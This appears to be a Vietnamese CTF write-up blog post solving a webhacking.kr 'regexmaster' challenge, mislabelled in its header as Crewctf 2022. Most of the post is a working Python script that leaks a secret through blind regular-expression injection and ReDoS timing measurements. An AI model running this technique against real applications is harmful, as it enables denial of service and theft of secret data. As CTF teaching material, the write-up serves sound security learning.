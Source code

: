 ```yaml
---
title: Crewctf 2022
description: From crewctf
author: to^
date: 2022-04-17 19:57:00 +0700
categories: [WecSec, CTF]
tags: []     # TAG names should always be lowercase
img_path: /assets/img/crewctf2022
image:
 src: blind_re_inject/webhackingkr_logo.png
 alt: webhackingkr logo
 width: 1000
 height: 400
---
```


## _Link challenge_
<http://193.105.207.19:5001/>

## _Overview_
![source_code](blind_re_inject/source_code.png)
_source code_

## _Phân tích_
Ở bài này source code rất đơn giản, chỉ kiểm tra xem biến flag có chứa chuỗi `parttern` (nhận từ GET request) hay không mà không hề xuất ra kết quả hay output nào khác.
Sau một hồi suy nghĩ thì mình quyết định thử khai thác bằng `blind regex injection` + `timing attack`
Để hiểu chi tiết hơn về kĩ thuật này các bạn có thể [đây](https://diary.shift-js.info/blind-regular-expression-injection/)

## _Khai thác_
```py
import requests
import sys
import time
import random
import string
import re

# constants
THRESHOLD = 1
url = 'http://regexmaster.webhacking.kr/?pattern='
# predicates


def length_is(n):
    return ".{" + str(n) + "}$"


def nth_char_is(n, c):
    if c == '/':
        return ".{" + str(n-1) + "}" + '\/' + ".*$"
    if c == '\\':
        return ".{" + str(n-1) + "}" + '\\\\' + ".*$"
    return ".{" + str(n-1) + "}" + re.escape(c) + ".*$"

# utilities


def redos_if(regexp, salt):
    return "^(?={})(((((.*)*)*)*)*)*{}".format(regexp, salt)


def get_request_duration(payload):
    # print(payload)
    try:
        r = requests.get(url+payload)
        duration = r.elapsed.total_seconds()
    except:
        duration = -1
        exit(1)
    # print(duration)
    return duration


def prop_holds(prop, salt):
    return get_request_duration(redos_if(prop, salt)) > THRESHOLD


def generate_salt():
    return ''.join([random.choice(string.ascii_letters) for i in range(10)])


# exploit
if __name__ == '__main__':
    # generating salt
    salt = generate_salt()
    while not prop_holds('.*', salt):
        salt = generate_salt()
    print("[+] salt: {}".format(salt))

    # leak length
    upper_bound = 100
    secret_length = 0
    for i in range(0, upper_bound):
        if prop_holds(length_is(i), salt):
            secret_length = i
            break
    print("[+] length: {}".format(secret_length))

    flag = "FLAG{"
    for i in range(5, secret_length):
        stop = 0
        for c in range(32, 128):
            if prop_holds(nth_char_is(i+1, chr(c)), salt):
                flag += chr(c)
                print("[*] {}".format(flag))
                stop = 1
                break
    print("[+] Flag: {}".format(flag))  
```

> FLAG{im_r/e/g/e/x_master//_//}
{: .prompt-info  }
## _Tham khảo_
<https://diary.shift-js.info/blind-regular-expression-injection>
